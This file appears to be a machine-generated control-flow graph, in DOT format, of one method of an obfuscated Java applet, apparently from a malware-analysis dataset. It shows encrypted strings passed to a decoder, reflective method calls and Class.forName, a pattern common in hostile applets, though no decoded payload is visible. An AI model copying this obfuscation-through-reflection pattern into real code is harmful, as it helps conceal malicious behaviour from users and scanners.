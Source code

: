 digraph "" {
    "r0 := @this: Applet"
    "push \"\u007fu`ti:avo}na7GygldrPosk{hYo{hso\'\""
    "r0 := @this: Applet"->"push \"\u007fu`ti:avo}na7GygldrPosk{hYo{hso\'\"";
    "staticinvoke <a: java.lang.String a(java.lang.String)>"
    "push \"\u007fu`ti:avo}na7GygldrPosk{hYo{hso\'\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "push 0"
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"push 0";
    "newarray"
    "push 0"->"newarray";
    "newarray"->"push 0";
    "push 0"->"newarray";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>"
    "newarray"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "store.r $r21"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r $r21";
    "store.r $r21"->"push \"\u007fu`ti:avo}na7GygldrPosk{hYo{hso\'\"";
    "push \"\u007fu`ti:avo}na7GygldrPosk{hYo{hso\'\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "load.r $r21"
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"load.r $r21";
    "push \"}~m_p|ttwYhTwv0\""
    "load.r $r21"->"push \"}~m_p|ttwYhTwv0\"";
    "push \"}~m_p|ttwYhTwv0\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "push 1"
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "dup1.r"
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"~&\""
    "push 0"->"push \"~&\"";
    "push \"~&\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"arraywrite.r";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "store.r $r17"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r $r17";
    "push \"gmxlq\\\"ynwevy/_a\u007ft|jHwksc0\""
    "store.r $r17"->"push \"gmxlq\\\"ynwevy/_a\u007ft|jHwksc0\"";
    "push \"gmxlq\\\"ynwevy/_a\u007ft|jHwksc0\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "load.r $r17"
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"load.r $r17";
    "push \"pbw9\""
    "load.r $r17"->"push \"pbw9\"";
    "push \"pbw9\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"saxve}}{=`qFmfs{b<i<z}\\\"(-$5aa}y;A{eaC}\\r\u001d)\u001esLzYaL{H=\u0008oKs\u00054G5\u0014)\n%5=bghoxtku0yxz};Vmuady,fh`]pjax|Am{t_uUpO<P`Ux\u0013.J:Rzr`P|Cs\u0006<\u0012i\nvt`u}94w54oc|9):$>fcatfl5*35h2q*(\u0015zSb\u0011Q@gRf\u0016<\u0002q\u0014x@gUtFq\u0002(\r`F|Z/Xpaad{1q)(\""
    "push 0"->"push \"saxve}}{=`qFmfs{b<i<z}\\\"(-$5aa}y;A{eaC}\\r\u001d)\u001esLzYaL{H=\u0008oKs\u00054G5\u0014)\n%5=bghoxtku0yxz};Vmuady,fh`]pjax|Am{t_uUpO<P`Ux\u0013.J:Rzr`P|Cs\u0006<\u0012i\nvt`u}94w54oc|9):$>fcatfl5*35h2q*(\u0015zSb\u0011Q@gRf\u0016<\u0002q\u0014x@gUtFq\u0002(\r`F|Z/Xpaad{1q)(\"";
    "push \"saxve}}{=`qFmfs{b<i<z}\\\"(-$5aa}y;A{eaC}\\r\u001d)\u001esLzYaL{H=\u0008oKs\u00054G5\u0014)\n%5=bghoxtku0yxz};Vmuady,fh`]pjax|Am{t_uUpO<P`Ux\u0013.J:Rzr`P|Cs\u0006<\u0012i\nvt`u}94w54oc|9):$>fcatfl5*35h2q*(\u0015zSb\u0011Q@gRf\u0016<\u0002q\u0014x@gUtFq\u0002(\r`F|Z/Xpaad{1q)(\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "pop"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r $r21";
    "store.r $r21"->"load.r $r21";
    "load.r $r21"->"push 0";
    "push \"~tauh;`wn|o`6\\ubkvfvl0\""
    "push 0"->"push \"~tauh;`wn|o`6\\ubkvfvl0\"";
    "push \"~tauh;`wn|o`6\\ubkvfvl0\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"load.r $r17";
    "push \"}{a{{pUarvk}w;\""
    "load.r $r17"->"push \"}{a{{pUarvk}w;\"";
    "push \"}{a{{pUarvk}w;\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "push 2"
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r $r17";
    "store.r $r17"->"load.r $r17";
    "load.r $r17"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r17";
    "load.r $r17"->"push 1";
    "push class \"[Ljava/lang/Object;\""
    "push 1"->"push class \"[Ljava/lang/Object;\"";
    "push class \"[Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"push 2";
    "push 2"->"newarray";
    "store.r $r18"
    "newarray"->"store.r $r18";
    "load.r $r18"
    "store.r $r18"->"load.r $r18";
    "load.r $r18"->"push 0";
    "push \"a{Eac}|2\""
    "push 0"->"push \"a{Eac}|2\"";
    "push \"a{Eac}|2\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r18";
    "load.r $r18"->"push 1";
    "push 1"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "load.r r0"
    "push 0"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"arraywrite.r";
    "arraywrite.r"->"load.r $r17";
    "load.r $r17"->"load.r $r18";
    "load.r $r18"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"arraywrite.r";
    "push \"oepdy*qrdji+CHcv!\""
    "arraywrite.r"->"push \"oepdy*qrdji+CHcv!\"";
    "push \"oepdy*qrdji+CHcv!\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push class \"[Ljava/lang/Object;\"";
    "push class \"[Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r21";
    "load.r $r21"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r $r21";
    "push \"~tau>tcdppk:Yekxa!\""
    "store.r $r21"->"push \"~tau>tcdppk:Yekxa!\"";
    "push \"~tau>tcdppk:Yekxa!\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"load.r r0";
    "push \"ws1\""
    "load.r r0"->"push \"ws1\"";
    "push \"ws1\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"~tau>td`2Vpyhzuqj!\""
    "push 0"->"push \"~tau>td`2Vpyhzuqj!\"";
    "push \"~tau>td`2Vpyhzuqj!\""->"staticinvoke <a: java.lang.String a(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <a: java.lang.String a(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r21";
    "load.r $r21"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"pop";
    "return"
    "pop"->"return";
    "store.r r0"
    "staticinvoke <Applet: java.lang.Object a(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r r0";
    "staticget <Applet: java.lang.Boolean a>"
    "store.r r0"->"staticget <Applet: java.lang.Boolean a>";
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"
    "staticget <Applet: java.lang.Boolean a>"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "ifeq return"
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"ifeq return";
    "ifeq return"->"load.r r0";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"->"return";
}
